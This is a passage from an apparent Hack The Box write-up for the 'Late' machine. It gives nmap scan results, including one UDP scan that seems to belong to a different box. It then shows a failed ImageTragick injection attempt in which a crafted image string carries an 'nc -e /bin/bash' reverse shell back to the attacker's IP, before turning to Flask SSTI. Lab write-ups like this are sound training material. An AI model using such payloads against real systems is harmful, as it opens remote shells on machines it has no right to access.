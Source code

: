 ----------------


# USER

### Step 1
**nmap:**
```bash
➜  late nmap -p- -v 10.10.11.156
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

➜  late nmap -p22,80 -sCV 10.10.11.156
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


[root:/git/htb/pandora]# nmap -sU --top-port=20 --open 10.10.11.136
PORT     STATE         SERVICE
67/udp   open|filtered dhcps
68/udp   open|filtered dhcpc
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open          snmp
520/udp  open|filtered route
4500/udp open|filtered nat-t-ike
```

Browsing the webpage we find `images.late.htb`, add it to `/etc/hosts` and proceed. The site is very basic and lets us upload an image which will be converted to a text document.

![[Pasted image 20220509205732.png]]
This lead me down the road of "ImageTragick" trying to inject code with the following string:
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://nothing/here.jpg"|nc -e /bin/bash 10.10.14.18 "4488)'
pop graphic-context
```

Although it gave nothing.. so instead we look on the later part of the description ".. with flask", why do they specify that? Reading about Flask vulnerabilities we find a lot of information about Flask and Jinja, specifically Server-Side Template Injections (SSTI), where the HTB box Doctor is referenced. 
